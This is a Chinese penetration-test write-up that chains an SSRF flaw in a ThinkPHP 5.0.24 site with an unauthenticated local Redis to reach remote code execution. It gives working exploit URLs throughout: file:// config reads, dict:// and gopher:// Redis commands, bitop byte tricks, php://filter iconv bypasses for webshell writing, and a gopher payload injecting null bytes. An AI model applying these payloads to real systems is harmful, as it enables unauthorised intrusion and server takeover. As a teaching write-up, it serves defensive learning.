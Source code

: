 > 原文链接: https://www.anquanke.com//post/id/202966 


# 一次“SSRF--&gt;RCE”的艰难利用


                                阅读量   
                                **399662**
                            
                        |
                        
                                                                                    



[![](https://p2.ssl.qhimg.com/t01e753d12718679029.png)](https://p2.ssl.qhimg.com/t01e753d12718679029.png)

> 乐清小俊杰@Pentes7eam

## 前言

一次授权的渗透测试中，发现一处SSRF漏洞，可结合Redis实现RCE，看似近在咫尺，却又满路荆棘，经过不懈努力，最终达成目的。其中有几处比较有意思的地方，抽象出来与大家分享。



## 发现SSRF

目标站点使用ThinkPHP5框架开发，互联网可直接下载源代码，通过代码审计发现一处SSRF漏洞，代码如下所示：

```
public function httpGet($url="")`{`

        $curl = curl_init();

        curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($curl, CURLOPT_TIMEOUT, 8);
        //curl_setopt($curl, CURLOPT_TIMEOUT_MS, 1);
        curl_setopt($curl, CURLOPT_URL, $url);

        $res = curl_exec($curl);
        curl_close($curl);

        return $res;
    `}`
```

利用SSRF漏洞读取ThinkPHP5配置文件：[http://domain.com/public/index.php?s=index/test/httpget&amp;url=file:////var/www/html/tp_5.0.24/application/config.php](http://domain.com/public/index.php?s=index/test/httpget&amp;url=file:////var/www/html/tp_5.0.24/application/config.php)

[![](https://p2.ssl.qhimg.com/dm/1024_267_/t01b2e116349c7a0113.png)](https://p2.ssl.qhimg.com/dm/1024_267_/t01b2e116349c7a0113.png)

如上图所示，目标业务系统采用Redis缓存数据，且密码为空。

利用gopher协议尝试获取info信息：

[http://domain.com/public/index.php?s=index/test/httpget&amp;url=gopher://127.0.0.1:6379/_info](http://domain.com/public/index.php?s=index/test/httpget&amp;url=gopher://127.0.0.1:6379/_info)

发现无回显，一段时间后500错误，疑似连接上后超时退出,原因不明（后期复盘时推测为疑似开启了php短标签导致语法错误）

[![](https://p1.ssl.qhimg.com/dm/1024_377_/t011c6965db2f49a169.png)](https://p1.ssl.qhimg.com/dm/1024_377_/t011c6965db2f49a169.png)

尝试利用dict协议，成功获取Redis的info信息

[http://domain.com/public/index.php?s=index/test/httpget&amp;url=dict://127.0.0.1:6379/info](http://domain.com/public/index.php?s=index/test/httpget&amp;url=dict://127.0.0.1:6379/info)

[![](https://p5.ssl.qhimg.com/dm/1024_457_/t0150cb9032ad929b60.png)](https://p5.ssl.qhimg.com/dm/1024_457_/t0150cb9032ad929b60.png)



## 尝试Redis 写Shell

上述信息中显示，Redis服务的PID 为3517，查看/proc/3517/status文件。

其Redis服务用户权限为Redis

而目标Web服务器为Nginx，其用户权限为www-data，故利用Redis写shell，执行flushall操作后可能无法直接还原数据，需要通过本地提权获得ROOT用户。由于存在不确定性，故对于本次渗透测试场景下此方法不可取。

利用Redis dbfilename写shell过程发现写入后门时

[dict://127.0.0.1:6379/set](dict://127.0.0.1:6379/set) d ‘&lt;?php phpinfo();?&gt;’

无法使用“?”符号，如下图所示

[![](https://p4.ssl.qhimg.com/dm/1024_425_/t0139137ef2e7993639.png)](https://p4.ssl.qhimg.com/dm/1024_425_/t0139137ef2e7993639.png)

翻阅Redis文档，发现可以使用bitop命令

bitop知识相关链接地址为：[https://redis.io/commands/bitop](https://redis.io/commands/bitop)，该命令可以对Redis缓存值按位计算并获取结果保存，如下图所示：

[![](https://p4.ssl.qhimg.com/dm/1024_578_/t01ce3c2da9757130ff.png)](https://p4.ssl.qhimg.com/dm/1024_578_/t01ce3c2da9757130ff.png)

执行save操作后访问目标发现回显500错误，猜测原因可能如下：
<li data-darkmode-color-158683391660910="rgb(230, 230, 230)" data-darkmode-original-color-158683391660910="rgb(0, 0, 0)" data-style="box-sizing: border-box; margin: 0px; font-size: 14px; color: rgb(0, 0, 0);">
目标redis数据过大(目标存在10w+ keys)，导致超过PHP 执行文件大小；
</li>
<li data-darkmode-color-158683391660910="rgb(230, 230, 230)" data-darkmode-original-color-158683391660910="rgb(0, 0, 0)" data-style="box-sizing: border-box; margin: 0px; font-size: 14px; color: rgb(0, 0, 0);">
可能是数据中存在与PHP代码相似数据，解析出现语法错误，导致无法执行。
</li>


## 尝利用ThinkPHP反序列化

查看ThinkPHP的Redis的获取数据代码，发现如果值以think_serialize:开头就可以触发反序列化。

[![](https://p1.ssl.qhimg.com/dm/1024_460_/t0161f419705292b153.png)](https://p1.ssl.qhimg.com/dm/1024_460_/t0161f419705292b153.png)

目标ThinkPHP的版本为 5.0.24，该版本存在已知反序列化写文件漏洞，相关漏洞细节链接：[http://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/](http://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/)。采用该链接中的漏洞利用代码，直接生成的反序列化数据如下(数据前加上了think_serialize:)

[![](https://p5.ssl.qhimg.com/dm/1024_184_/t014afe6b9a37e674ad.png)](https://p5.ssl.qhimg.com/dm/1024_184_/t014afe6b9a37e674ad.png)

测试发现由于反序列化数据流中存在\x00,导致程序报错，如下图所示：

[![](https://p4.ssl.qhimg.com/dm/1024_220_/t015205eb9d048f31d8.png)](https://p4.ssl.qhimg.com/dm/1024_220_/t015205eb9d048f31d8.png)

测试发现反序列化数据流中存在“ : ” 符号,dict协议无法传输。

[![](https://p3.ssl.qhimg.com/dm/1024_246_/t01497da11b69a8cb0b.png)](https://p3.ssl.qhimg.com/dm/1024_246_/t01497da11b69a8cb0b.png)

结合bitop not命令，先对数据进行取反，进入redis后，再取反，得到真正的反序列化数据。过程下图所示。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_649_/t01843e2d48c9b5e6e3.png)

至此，只要访问代码中触发缓存的点即可触发ThinkPHP5反序列化。



## 修改反序列化利用代码

ThinkPHP反序列化漏洞最终的写入点为

```
file_put_contents($a,'&lt;?php  exit();'.$a)
```

需要使用[php://filter](php://filter)协议来绕过，原有漏洞利用代码:

[php://filter/write=string.rot13/resource=xx](php://filter/write=string.rot13/resource=xx)&lt;?php使用的rot13反转，虽然绕过了exit();但是会导致输出文件出现&lt;?cur 如下图所示

[![](https://p2.ssl.qhimg.com/dm/1024_474_/t0121d0ccae76b9120a.png)](https://p2.ssl.qhimg.com/dm/1024_474_/t0121d0ccae76b9120a.png)

经测试目标返回500，推测是开启了php短标签导致语法错误，这估计也是前面Redis写shell出现 500状态码的原因。

经过大量尝试，最终发现使用[php://filter//convert.iconv.UCS-4LE.UCS-4BE/resource=abcd](php://filter//convert.iconv.UCS-4LE.UCS-4BE/resource=abcd)该iconv.UCS-4LE.UCS-4BE 函数会将目标4位一反转,从而绕过短标签。

[![](https://p5.ssl.qhimg.com/dm/1024_237_/t01a0951a32cbdef67d.png)](https://p5.ssl.qhimg.com/dm/1024_237_/t01a0951a32cbdef67d.png)

[![](https://p0.ssl.qhimg.com/dm/1024_369_/t0175238782605ee6fb.png)](https://p0.ssl.qhimg.com/dm/1024_369_/t0175238782605ee6fb.png)

但测试发现目标关键文件始终为空，而本地却可以生成。测试使用写入数据为aaaa仍为空。图为本地生成的关键文件

[![](https://p1.ssl.qhimg.com/dm/1024_113_/t01c21fb0fa77867ef2.png)](https://p1.ssl.qhimg.com/dm/1024_113_/t01c21fb0fa77867ef2.png)

猜测目标开启了php strict模式，关键文件的总字符数不能被4整除(除后余2，如果添加2字符，则写入数据不能正常显示为shell)导致写入为空。

最后尝试[php://filter//convert.iconv.UCS-2LE.UCS-2BE/resource=xxxx](php://filter//convert.iconv.UCS-2LE.UCS-2BE/resource=xxxx)成功getshell。iconv.UCS-2LE.UCS-2BE为2位一反转。



## gopher协议再验证

重新测试gopher协议。最后发现gopher协议会自动url解码一次。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_283_/t0141a69cebc9695445.png)

通过nc 对比gopher和dict协议后发现，dict会自动加上quit命令 XD

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_422_/t01b9d68b1640048fab.png)

于是成功让gopher有回显，url=[gopher://127.0.0.1:6379/_set](gopher://127.0.0.1:6379/_set) key aa%253abbcc%250d%250aquit如下图所示：

[![](https://p3.ssl.qhimg.com/dm/1024_235_/t01d6963695311713ba.png)](https://p3.ssl.qhimg.com/dm/1024_235_/t01d6963695311713ba.png)

但是使用url=[gopher://127.0.0.1:6379/_set](gopher://127.0.0.1:6379/_set) key aa%2500bbcc%250d%250aquit时，仍然超时，猜测可能被截断，但是对比nc数据包发现和发送数据一致。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_105_/t01197abe96bb2cf037.png)

尝试将数据包直接导入redis

[![](https://p3.ssl.qhimg.com/dm/1024_330_/t01a31706d49cc81afb.png)](https://p3.ssl.qhimg.com/dm/1024_330_/t01a31706d49cc81afb.png)

发现并没有修改成功，尝试导入redis-cli

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_293_/t018972e41662c3a20f.png)

修改成aa？那么真相只有一个 -&gt; 我是菜鸡

redis-cli 的命令会被转化。如下图所示：

[![](https://p3.ssl.qhimg.com/dm/1024_233_/t016a15df6f6df09348.png)](https://p3.ssl.qhimg.com/dm/1024_233_/t016a15df6f6df09348.png)

于是使用如上图的方式即可传入\x00字符：

```
url=gopher://127.0.0.1:6379/_*3%250d%250a$3%250d%250aset%250d%250a$3%250d%250akey%250d%250a$4%250d%250aaa%2500a%250d%250aquit
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_305_/t018b36f0f728e82556.png)



## 其他

经测试也可以使用 Redis bitfield命令（相关命令说明链接：[https://redis.io/commands/bitfield)](https://redis.io/commands/bitfield))来快速设置字符:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_198_/t01d69966bf94590d96.png)
